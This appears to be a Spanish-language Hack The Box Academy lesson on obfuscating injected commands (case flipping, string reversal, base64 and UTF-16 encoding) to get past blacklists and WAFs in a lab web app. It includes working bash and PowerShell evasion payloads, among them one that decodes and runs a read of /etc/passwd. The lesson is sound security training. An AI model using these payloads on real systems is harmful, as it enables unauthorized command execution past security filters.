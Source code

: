 En algunos casos, podemos estar lidiando con soluciones avanzadas de filtrado, como Web Application Firewalls (WAFs), y las técnicas básicas de evasión pueden no funcionar necesariamente. Podemos utilizar técnicas más avanzadas para estas ocasiones, que hacen que la detección de los comandos inyectados sea mucho menos probable.

---

## Case Manipulation

Una técnica de ofuscación de comandos que podemos usar es la manipulación de mayúsculas y minúsculas, como invertir las mayúsculas y minúsculas de un comando (por ejemplo, `WHOAMI`) o alternar entre mayúsculas y minúsculas (por ejemplo, `WhOaMi`). Esto generalmente funciona porque una lista negra de comandos puede no verificar las diferentes variaciones de mayúsculas y minúsculas de una sola palabra, ya que los sistemas Linux son sensibles a mayúsculas y minúsculas.

Si estamos tratando con un servidor Windows, podemos cambiar las mayúsculas y minúsculas de los caracteres del comando y enviarlo. En Windows, los comandos para PowerShell y CMD no distinguen entre mayúsculas y minúsculas, lo que significa que ejecutarán el comando sin importar en qué caso esté escrito:

```powershell
PS C:\htb> WhOaMi

21y4d
```

Sin embargo, cuando se trata de Linux y un shell bash, que distinguen entre mayúsculas y minúsculas, como mencionamos anteriormente, tenemos que ser un poco creativos y encontrar un comando que convierta el comando en una palabra completamente en minúsculas. Un comando que funciona es el siguiente:

```bash
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```

Como podemos ver, el comando funcionó, aunque la palabra que proporcionamos fue (`WhOaMi`). Este comando usa `tr` para reemplazar todos los caracteres en mayúsculas con caracteres en minúsculas, lo que da como resultado un comando con caracteres en minúsculas. Sin embargo, si intentamos usar el comando anterior con la aplicación web `Host Checker`, veremos que aún se bloquea:

### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_3.jpg)

`¿Puedes adivinar por qué?` Es porque el comando anterior contiene espacios, que es un carácter filtrado en nuestra aplicación web, como hemos visto antes. Entonces, con tales técnicas, `debemos asegurarnos de no usar ningún carácter filtrado`, de lo contrario, nuestras solicitudes fallarán y podríamos pensar que las técnicas no funcionaron.

Una vez que reemplazamos los espacios con tabulaciones (`%09`), vemos que el comando funciona perfectamente:

### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_4.jpg)

Hay muchos otros comandos que podemos usar para el mismo propósito, como el siguiente:

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

Ejercicio: ¿Puedes probar el comando anterior para ver si funciona en tu VM Linux, y luego intentar evitar usar caracteres filtrados para hacerlo funcionar en la aplicación web?

---

## Reversed Commands

Otra técnica de ofuscación de comandos que discutiremos es invertir comandos y tener una plantilla de comandos que los revierta y los ejecute en tiempo real. En este caso, escribiremos `imaohw` en lugar de `whoami` para evitar activar el comando en la lista negra.

Podemos ser creativos con tales técnicas y crear nuestros propios comandos de Linux/Windows que finalmente ejecuten el comando sin contener nunca las palabras reales del comando. Primero, tendríamos que obtener la cadena invertida de nuestro comando en nuestra terminal, de la siguiente manera:

```bash
echo 'whoami' | rev
imaohw
```

Luego, podemos ejecutar el comando original invirtiéndolo nuevamente en un sub-shell (`$()`), de la siguiente manera:

```bash
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```

Vemos que aunque el comando no contiene la palabra `whoami`, funciona igual y proporciona el resultado esperado. También podemos probar este comando con nuestro ejercicio, y realmente funciona:

### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_5.jpg)

Consejo: Si quisieras evitar un filtro de caracteres con el método anterior, también tendrías que invertirlos, o incluirlos al invertir el comando original.

Lo mismo se puede aplicar en `Windows.` Primero, podemos invertir una cadena, de la siguiente manera:

```powershell
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

Ahora podemos usar el siguiente comando para ejecutar una cadena invertida con un sub-shell de PowerShell (`iex "$()"`), de la siguiente manera:

```powershell
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

---

## Encoded Commands

La técnica final que discutiremos es útil para comandos que contienen caracteres filtrados o caracteres que pueden ser decodificados por URL por el servidor. Esto puede permitir que el comando se desordene cuando llega al shell y finalmente falle al ejecutarse. En lugar de copiar un comando existente en línea, intentaremos crear nuestro propio comando de ofuscación único esta vez. De esta manera, es mucho menos probable que sea denegado por un filtro o un WAF. El comando que creamos será único para cada caso, dependiendo de qué caracteres están permitidos y el nivel de seguridad en el servidor.

Podemos utilizar varias herramientas de codificación, como `base64` (para codificación b64) o `xxd` (para codificación hex). Tomemos `base64` como ejemplo. Primero, codificaremos la carga útil que queremos ejecutar (que incluye caracteres filtrados):

```bash
echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Ahora podemos crear un comando que decodifique la cadena codificada en un sub-shell (`$()`), y luego pasarla a `bash` para que se ejecute (es decir, `bash<<<`), de la siguiente manera:

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Como podemos ver, el comando anterior ejecuta el comando perfectamente. No incluimos ningún carácter filtrado y evitamos caracteres codificados que pueden llevar a que el comando falle al ejecutarse.

Consejo: Tenga en cuenta que estamos usando `<<<` para evitar usar una tubería `|`, que es un carácter filtrado.

Ahora podemos usar este comando (una vez que reemplacemos los espacios) para ejecutar el mismo comando a través de inyección de comandos:

### Burp POST Request

![Filter Commands](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_commands_6.jpg)

Incluso si algunos comandos fueron filtrados, como `bash` o `base64`, podríamos evitar ese filtro con las técnicas que discutimos en la sección anterior (por ejemplo, inserción de caracteres), o usar otras alternativas como `sh` para la ejecución de comandos y `openssl` para la decodificación de b64, o `xxd` para la decodificación hex.

Usamos la misma técnica con Windows también. Primero, necesitamos codificar en base64 nuestra cadena, de la siguiente manera:

```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

También podemos lograr lo mismo en Linux, pero tendríamos que convertir la cadena de `utf-8` a `utf-16` antes de `base64`, de la siguiente manera:

```bash
echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

Finalmente, podemos decodificar la cadena b64 y ejecutarla con un sub-shell de PowerShell (`iex "$()"`), de la siguiente manera:

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

Como podemos ver, podemos ser creativos con `Bash` o `PowerShell` y crear nuevos métodos de bypass y ofuscación que no se hayan utilizado antes, y, por lo tanto, es muy probable que eviten filtros y WAFs. Varias herramientas pueden ayudarnos a ofuscar automáticamente nuestros comandos, que discutiremos en la siguiente sección.

Además de las técnicas que discutimos, podemos utilizar numerosos otros métodos, como comodines, expresiones regulares, redirección de salida, expansión de enteros y muchos otros. Podemos encontrar algunas de estas técnicas en [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).